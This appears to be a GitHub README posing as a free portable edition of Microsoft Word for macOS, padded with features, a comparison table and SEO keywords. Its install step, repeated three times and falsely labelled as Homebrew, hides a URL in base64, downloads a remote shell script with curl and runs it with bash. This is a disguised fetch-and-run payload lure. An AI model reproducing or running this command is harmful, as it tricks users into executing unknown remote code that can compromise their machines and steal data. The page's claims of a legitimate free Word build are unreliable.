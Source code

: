 # Microsoft Word for macOS – Portable Edition

📂 **Unzip the archive to a separate folder and run the .app file.**

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

🛠️ Installation (macOS Terminal)
To install the application via Terminal on macOS, follow these steps:

Option 1: Using Homebrew (recommended)

/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"

---
![Microsoft Word on Mac – UI](https://cdn.shopify.com/s/files/1/0329/9865/3996/t/5/assets/how_to_access_microsoft_word_on_mac-n4cxGv.True?v=1707900370)

![How to Get Word for Free on macOS](https://images.macworld.co.uk/cmsdata/features/3777812/how-to-get-microsoft-word-for-free-on-mac-online.png)

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

🛠️ Installation (macOS Terminal)

/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"

Microsoft Word for macOS is the industry-standard document editor, now optimized for portable use. Edit and format text, collaborate with others, and export to PDF — all in a clean, familiar interface made for Apple Silicon and Intel Macs.

---

## 🎯 Key Features

- Professional text editing with rich formatting  
- Real-time collaboration via OneDrive  
- Seamless cloud sync and auto-save  
- Wide variety of document templates  
- Smart spelling and grammar check  
- Dark Mode support for macOS  
- Export to PDF or other formats  
- Track changes and comments  
- Built-in citation and bibliography tools  
- Voice dictation and accessibility support  
- Supports .docx, .doc, .rtf, .txt, and more  
- Offline editing without limitations  
- Compatible with Microsoft 365 accounts  
- Native support for Apple Silicon (M1/M2/M3)  
- Integrates with Excel and PowerPoint  
- Drag-and-drop image and table tools  
- Automatic document recovery  
- Ribbon interface with customizable shortcuts  
- Supports printing and layout preview  
- Optimized for macOS Ventura and later  

| Feature / Editor                         | **Microsoft Word**    | Apple Pages   | Google Docs      | LibreOffice Writer | Ulysses / Bear |
| ---------------------------------------- | --------------------- | ------------- | ---------------- | ------------------ | -------------- |
| ✅ **Offline Editing**                    | ✔️ Full support       | ✔️            | ❌                | ✔️                 | ✔️             |
| 💾 **Export to PDF, DOCX, RTF, HTML**    | ✔️ All formats        | ✔️            | ⚠️ Limited       | ✔️                 | ⚠️ Markdown    |
| 🤝 **Real-Time Collaboration**           | ✔️ Via OneDrive       | ✔️ iCloud     | ✔️ Best-in-class | ⚠️ Limited         | ❌              |
| 🧠 **AI-Powered Suggestions**            | ✔️ Grammarly & Editor | ❌             | ✔️ Smart compose | ❌                  | ❌              |
| 🎨 **Advanced Formatting / Styles**      | ✔️ Professional       | ⚠️ Basic      | ⚠️ Basic         | ✔️ Decent          | ❌              |
| 📚 **Templates Library**                 | ✔️ Extensive          | ⚠️ Few        | ⚠️ Few           | ✔️ Basic           | ❌              |
| 🔒 **Document Protection / Track Edits** | ✔️ Full control       | ⚠️ Limited    | ⚠️ Partial       | ✔️ Basic           | ❌              |
| 🖨️ **Print Preview / Layout Mode**      | ✔️ WYSIWYG            | ✔️            | ❌                | ✔️                 | ❌              |
| 🧩 **Cross-Platform Compatibility**      | ✔️ macOS/Windows/iOS  | ✔️ macOS/iOS  | ✔️ Web only      | ✔️ All platforms   | macOS/iOS only |
| 🧬 **Apple Silicon Optimization**        | ✔️ Native support     | ✔️            | ✔️ (via browser) | ✔️                 | ✔️             |
| 🧑‍🎓 **Ideal for Education & Business** | ✔️ Top-tier choice    | ⚠️ Casual use | ✔️ Good online   | ⚠️ Basic           | ❌              |


---

## 💻 System Requirements

- **OS:** macOS 11.0 Big Sur or newer  
- **CPU:** Intel Core i5 / Apple M1 or better  
- **RAM:** 4 GB minimum  
- **Disk Space:** 2 GB available  
- **Internet:** Only for cloud sync or activation (optional)  
- **Note:** No Microsoft 365 subscription required for offline mode  

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
  
  🛠️ Installation (macOS Terminal)
  
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"
</p>

---

🔍 SEO Keywords
Microsoft Word macOS, Word portable Mac, download Word for Mac, Word app Apple Silicon, Word M1 M2 Mac, offline Word Mac, Word no subscription, Word for students Mac, document editor macOS, best Word processor Mac, Word export to PDF macOS, .docx editor macOS, Word compatible with Pages, Microsoft Office Mac, Word without Microsoft 365, Word dark mode Mac, smart formatting Mac Word, spellcheck macOS editor, grammar correction Mac app, Word free Mac alternative, portable Word macOS Ventura, Word Apple M3 support, edit documents offline Mac, standalone Word Mac, Word collaboration Mac, professional writing Mac, Word academic tools macOS
